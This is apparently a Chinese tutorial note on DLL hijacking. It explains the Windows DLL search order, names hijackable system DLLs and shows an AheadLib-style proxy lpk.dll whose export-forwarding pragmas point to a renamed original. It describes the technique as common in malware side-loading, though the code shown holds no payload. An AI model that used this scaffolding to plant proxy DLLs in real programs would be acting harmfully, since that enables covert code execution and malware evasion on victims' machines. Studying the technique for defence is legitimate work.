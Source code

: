## DLL劫持

DLL劫持法(输入表DLL替换法)，原理是利用**搜索DLL路径存在先后顺序**(exe程序目录>系统目录>当前目录>Path),**当较高层存在一个同名的DLL文件的时候**，就会直接加载较高层的DLL文件。常常用于病毒的白加黑。需要注意的是黑DLL路径优先级一定要高于原来的dll文件，第二，一定要具有源dll文件所有的导出函数。

**DLL劫持的注入方法会面临部分系统dll无法被劫持的问题**(因为像`ntdll`这种是进程创建前就已经加载了, 它的路径在启动阶段就已经被设置好程序会去`system32`找, R3下的任何劫持都无效)

可以劫持的dll大概有：

**lpk.dll, usp10.dll, version.dll, msimg32.dll, midimap.dll, ksuser.dll、comres.dll, ddraw.dll**

### demo
使用 `AheadLib`自动生成导出函数的转发dll cpp代码, 如下图是生成的`LPK.dll`的劫持dll代码.
![](dll注入/lpk.png)

1. 生成的假的 `LPK.dll` 放在被劫持程序的目录下, 保证最高搜索优先级
2. 把原始的 `LPK.dll`复制并修改名称为`lpkOrg.dll`, 随便放在能搜到的地方. 用于转发.

```
#include <Windows.h>

#pragma comment(linker, "/EXPORT:LpkInitialize=lpkOrg.LpkInitialize,@1")
#pragma comment(linker, "/EXPORT:LpkTabbedTextOut=lpkOrg.LpkTabbedTextOut,@2")
#pragma comment(linker, "/EXPORT:LpkDllInitialize=lpkOrg.LpkDllInitialize,@3")
#pragma comment(linker, "/EXPORT:LpkDrawTextEx=lpkOrg.LpkDrawTextEx,@4")
#pragma comment(linker, "/EXPORT:LpkEditControl=lpkOrg.LpkEditControl,@5")
#pragma comment(linker, "/EXPORT:LpkExtTextOut=lpkOrg.LpkExtTextOut,@6")
#pragma comment(linker, "/EXPORT:LpkGetCharacterPlacement=lpkOrg.LpkGetCharacterPlacement,@7")
#pragma comment(linker, "/EXPORT:LpkGetTextExtentExPoint=lpkOrg.LpkGetTextExtentExPoint,@8")
#pragma comment(linker, "/EXPORT:LpkPSMTextOut=lpkOrg.LpkPSMTextOut,@9")
#pragma comment(linker, "/EXPORT:LpkUseGDIWidthCache=lpkOrg.LpkUseGDIWidthCache,@10")
#pragma comment(linker, "/EXPORT:ftsWordBreak=lpkOrg.ftsWordBreak,@11")
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
```